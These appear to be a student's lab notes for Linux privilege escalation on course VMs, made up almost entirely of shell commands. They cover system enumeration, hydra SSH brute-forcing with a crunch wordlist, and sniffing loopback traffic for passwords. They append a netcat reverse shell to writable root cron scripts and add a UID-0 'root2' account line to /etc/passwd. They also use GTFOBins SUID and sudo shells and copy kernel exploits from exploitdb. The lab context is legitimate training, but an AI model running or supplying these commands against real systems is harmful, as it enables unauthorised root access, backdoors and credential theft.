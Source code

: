 manual enumeration VM 1
```
ssh joe@192.168.234.214
id
cat /etc/passwd
```

get OS info
```
cat /etc/issue
cat /etc/os-release
uname -a
```

find processes
```
ps aux
ifconfig
ip a
route
routel
```

display active network connections
```
ss -anp
```

firewall
```
cat /etc/iptables/rules.v4
```

cron
```
ls -lah /etc/cron*
crontab -l
```

crons run by root
```
sudo crontab -l
```

find writable directories for current user
```
find / -writable -type d 2>/dev/null
```

list mounted filesystems
```
mount
```

list filesystems mounted at boot time
```
cat /etc/fstab 
```

view available disks
```
lsblk
```

enumerate loaded kernel modules
```
lsmod
```

find SUID marked binaries
```
find / -perm -u=s -type f 2>/dev/null
```

### auto enumeration VM 1
- tools: unix-privesc-check, lineum, linpeas
- http://pentestmonkey.net/tools/unix-privesc-check

```
ssh joe@192.168.234.214

unix-privesc-check
whereis unix-privesc-check
scp -r /usr/share/unix-privesc-check joe@192.168.234.214:/home/joe
./unix-privesc-check standard > output.txt
```

confidential info VM 1
```
ssh joe@192.168.234.214
su - root
```

generate custom wordlist
```
crunch 6 6 -t Lab%%% > wordlist
hydra -l eve -P wordlist  192.168.234.214 -t 4 ssh -V
 
ssh eve@192.168.234.214
```

list sudo perms
```
sudo -l
```

if admin, elevate directly to root
```
sudo -i
```

inspecting service footprints VM 1
```
watch -n 1 "ps -aux | grep pass"
sudo tcpdump -i lo -A | grep "pass"
```

Abusing cronjobs
```
ssh joe@192.168.234.214
```

enumerate crons
```
ls -lah /etc/cron*
crontab -l
sudo crontab -l
echo >> this_is_fine.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.181 4444 >/tmp/f" >> this_is_fine.sh
```

abusing password auth VM 1
```
ssh joe@192.168.234.214
openssl passwd w00t
echo "root2:EHcSMweaJfGZc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

abusing setuid binaries
```
passwd # leave running
ps u -C passwd
```

Filtering by the "Uid" keyword returns four parameters that correspond to the real, effective, saved set, and filesystem UIDs
```
grep Uid /proc/1722/status
ls -asl /usr/bin/passwd
```

find is setting the s flag, meaning we can use it to get a root shell
```
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

search for misconfigured binaries
```
/usr/sbin/getcap -r / 2>/dev/null
```


check this list https://gtfobins.github.io/ - below command is from searching 'perl' on the site
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

find setuid marked binaries
```
find / -perm -u=s -type f 2>/dev/null
```
### abusing sudo
list sudo priv
```
sudo -l
```
https://gtfobins.github.io/gtfobins/tcpdump/#sudo
```
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

apparmor is blocking this so no worky
```
su - root
aa-status
```
try apt-get instead: https://gtfobins.github.io/gtfobins/apt-get/#sudo

### exploit kernel vulnerabilities
```
ssh joe@192.168.234.216
cat /etc/issue
uname -r
arch
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
cp /usr/share/exploitdb/exploits/linux/local/45010.c .
mv 45010.c cve-2017-16995.c
scp cve-2017-16995.c joe@192.168.234.216:
file cve-2017-16995
./cve-2017-16995s
```

### VM 2
```
ssh joe@192.168.234.216
4.4.0-116-generic
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation" | grep  "4."
linux/local/44298.c
cp /usr/share/exploitdb/exploits/linux/local/44298.c .
```
well that failed just use pwnkit
- https://github.com/ly4k/PwnKit

### VM 3
```
ssh student@192.168.234.52 -p 2222
```

enumerate crons
```
ls -lah /etc/cron*
crontab -l
sudo crontab -l
```

look in /etc/crontab.hourly etc to find file paths of cronjobs and look for write perms
```
ls -lah /var/archives/archive.sh
cd /var/archives
echo >> archive.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.181 4444 >/tmp/f" >> archive.sh
```

on kali start reverse shell
```
nc -nvlp 4444
```
### VM 4
```
ssh student@192.168.234.52 -p 2222
```

find writable files for current user
```
find / -writable -type f 2>/dev/null
```

we find /etc/passwd
```
openssl passwd w00t
echo "root2:Y313qPRlW17oU:0:0:root:/root:/bin/bash" >> /etc/passwd
```

### VM 5
```
ssh student@192.168.234.52 -p 2222
```

find setuid marked binaries
```
find / -perm -u=s -type f 2>/dev/null
```
- look up the find command on gtfobins and run the suid command
- https://gtfobins.github.io/gtfobins/find/#suid















